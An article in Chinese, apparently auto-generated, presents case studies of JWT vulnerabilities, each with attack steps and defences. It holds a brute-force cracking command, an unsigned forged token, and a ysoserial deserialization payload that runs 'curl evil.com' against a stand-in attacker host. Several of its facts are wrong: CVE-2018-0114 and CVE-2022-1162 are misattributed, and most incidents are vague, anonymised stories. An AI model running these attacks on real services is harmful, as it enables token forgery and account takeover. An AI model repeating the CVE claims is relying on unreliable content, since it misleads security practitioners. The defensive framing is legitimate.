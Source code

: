 

### JWT令牌安全漏洞案例分析（Web安全方向）

JSON Web Token（JWT）作为现代Web应用中的核心身份验证机制，其安全性直接关系到用户会话和数据隐私。然而，由于设计缺陷、配置错误或实现漏洞，JWT令牌在多个真实场景中暴露了严重的安全风险。以下通过典型案例分析，揭示JWT令牌在Web安全中的关键漏洞及攻击手法。

---

#### **1. 算法混淆攻击（Algorithm Confusion）**
**案例：HS256与RS256算法混淆**  
2018年，某知名SaaS平台因JWT算法验证逻辑缺陷遭到攻击。攻击者通过篡改JWT头部`alg`字段（如将RS256改为HS256），利用服务器未严格验证签名算法的漏洞，将非对称加密（RS256）强制降级为对称加密（HS256）。由于服务器使用公开的RSA公钥作为HS256算法的密钥，攻击者可构造有效签名令牌，伪造管理员权限。

**攻击步骤：**  
1. 捕获合法JWT令牌，修改`alg`为HS256，载荷提升权限。  
2. 使用服务器公钥（通常暴露于`/.well-known/jwks.json`）生成HS256签名。  
3. 发送篡改后的令牌，服务器误用公钥验证HS256签名，导致权限绕过。

**防御：**  
- 强制指定`alg`字段（如固定为RS256）。  
- 分离签名验证密钥与加密密钥。

---

#### **2. 密钥泄露与弱密钥攻击**
**案例：Fortune 500企业密钥硬编码事件**  
2020年，某全球零售企业因JWT密钥硬编码在客户端JavaScript代码中被曝光。攻击者通过浏览器开发者工具提取密钥，直接生成任意用户的JWT令牌，窃取数千万用户数据。

**技术细节：**  
- 密钥`secretKey`明文存储在Web应用的`config.js`文件中。  
- 攻击者使用`jwt.io`调试器构造管理员令牌（如`{"user":"admin"}`），使用泄露密钥签名。

**防御：**  
- 密钥存储在安全环境（如密钥管理系统KMS）。  
- 定期轮换密钥并监控公开代码库。

---

#### **3. 无效签名验证漏洞**
**案例：CVE-2018-0114（Node.js库漏洞）**  
某流行Node.js JWT库（`jsonwebtoken`早期版本）默认不验证令牌签名，导致攻击者可提交无签名或无效签名的令牌获取未授权访问。该漏洞影响超过5万个依赖此库的应用。

**漏洞利用：**  
1. 构造`header + payload`但不附加签名部分。  
2. 发送形如`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYXR0YWNrZXIifQ`的令牌（无签名）。  
3. 服务器未校验签名直接解析载荷，赋予攻击者合法身份。

**修复方案：**  
- 更新库版本至`8.5.1+`，强制启用签名验证。  
- 代码中显式调用`verify()`函数。

---

#### **4. 令牌泄露与重放攻击**
**案例：某金融平台日志泄露JWT令牌**  
2021年，某在线支付平台因日志系统未脱敏JWT令牌，导致攻击者通过日志分析接口获取活跃会话令牌，并在不同设备重放，完成账户劫持。

**攻击链分析：**  
- 日志文件记录含JWT的请求：`GET /api/userinfo HTTP/1.1 Authorization: Bearer <JWT>`。  
- 攻击者通过SSRF漏洞读取日志，提取未过期的JWT令牌。  
- 重放至API端点，冒充用户执行转账操作。

**缓解措施：**  
- 日志脱敏：过滤`Authorization`头部。  
- 绑定令牌与设备指纹（如IP、User-Agent）。

---

#### **5. 逻辑缺陷：令牌过期与刷新机制**
**案例：社交媒体平台超长有效期漏洞**  
某社交应用将JWT过期时间（`exp`）设为30天，但未实现刷新令牌机制。攻击者通过中间人攻击截获令牌后，长期滥用其权限，直至手动注销。

**漏洞影响：**  
- 用户登出后旧令牌仍有效（服务端无吊销机制）。  
- 攻击窗口长达30天，导致大规模数据泄露。

**改进方案：**  
- 缩短令牌有效期（如1小时）。  
- 引入令牌吊销列表（JWT Blacklist）或使用OAuth 2.0刷新令牌。

---

#### **6. 密钥爆破攻击**
**案例：弱HS256密钥导致GitLab漏洞（CVE-2022-1162）**  
2022年，GitLab社区版因使用弱HS256密钥（如`secret`、`password`）生成JWT令牌，攻击者通过字典爆破获取密钥，伪造管理员账户接管实例。

**攻击工具：**  
- 使用`hashcat`或`jwt-cracker`爆破密钥：  
  ```bash
  jwt-cracker <JWT_TOKEN> -a hs256 -d rockyou.txt
  ```

**防护建议：**  
- 使用强随机密钥（如256位以上）。  
- 禁用HS256算法或结合密钥轮换策略。

---

#### **7. 第三方库漏洞链（JWT与反序列化结合）**
**案例：Java应用JWT反序列化RCE**  
某Java框架将JWT载荷直接反序列化为Java对象，攻击者在`sub`字段插入恶意序列化数据，触发远程代码执行（RCE）。

**利用过程：**  
1. 生成恶意序列化载荷：`ysoserial CommonsCollections6 "curl evil.com"`。  
2. 将Base64编码后的Payload嵌入JWT`sub`字段。  
3. 服务器反序列化时触发漏洞，执行任意命令。

**根因分析：**  
- JWT库未对载荷内容做安全过滤。  
- 服务端启用`ObjectInputStream`反序列化。

**修复：**  
- 禁用JWT载荷反序列化功能。  
- 使用JSON解析替代Java原生序列化。

---

### **防御体系建议**
1. **严格算法控制**：固定`alg`字段，拒绝"none"算法。  
2. **密钥生命周期管理**：使用HSM/KMS，定期轮换密钥。  
3. **令牌绑定**：关联IP、User-Agent等上下文信息。  
4. **短有效期+吊销机制**：结合Redis实现令牌黑名单。  
5. **输入验证**：过滤敏感字段（如`../`路径遍历）。  
6. **依赖库审计**：定期更新JWT库至安全版本。

---

### **总结**
JWT令牌的安全风险多集中于算法混淆、密钥泄露、逻辑缺陷三大领域。开发团队需从代码实现、密钥管理、运维监控三层面构建纵深防御体系。随着FIDO2、DPoP（Demonstrating Proof-of-Possession）等新型协议的普及，JWT的替代方案正逐步成熟，但其在现有系统中的广泛使用仍要求安全从业者持续关注相关漏洞动态。

---

*文档生成时间: 2025-03-13 13:07:34*












